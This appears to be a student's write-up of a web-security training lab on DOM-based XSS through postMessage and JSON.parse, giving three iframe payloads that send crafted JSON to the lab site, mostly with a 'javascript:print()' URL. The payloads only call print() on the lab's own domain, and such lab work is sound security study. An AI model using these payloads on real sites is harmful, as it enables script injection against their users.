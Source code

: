 # Practitioner Lab 95: DOM XSS using web messages and JSON.parse

---

This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

![Untitled](Practitioner%20Lab%2095%20DOM%20XSS%20using%20web%20messages%20and%201714bfb75c9f4ecebad8c7d0cfb6c45d/Untitled.png)

```
<iframe id="target_website" src="https://0a08005803fce4c48068a319001000bf.web-security-academy.net/" onload="
    this.contentWindow.postMessage(JSON.stringify({
        type: 'player-height-changed',
        height: print()
    }), '*')">
```

this works but for some reason they don’t want 

by looking at the parameters you can see which can be used such as load-channel with url and with and height with player-height—changed. 

it seems the program only wants to be solved while using one type of payload as such the one that I had to use to solve the lab was 

```
<iframe src=https://0a08005803fce4c48068a319001000bf.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

```jsx
<style>
    body, html {
        margin: 0;
        height: 100%;
        overflow: hidden;
    }
    iframe {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        border: 0;
    }
</style>
<iframe id="myIframe" src="https://0a730063039cd77e811bd4ee0066000f.web-security-academy.net/"></iframe>

<script>
var iframe = document.getElementById('myIframe');

iframe.onload = function() {
  // Send a message to the iframe's content window
  iframe.contentWindow.postMessage(JSON.stringify({ type: 'load-channel', url: 'javascript:print()//default.asp' }), '*');
};
</script>
```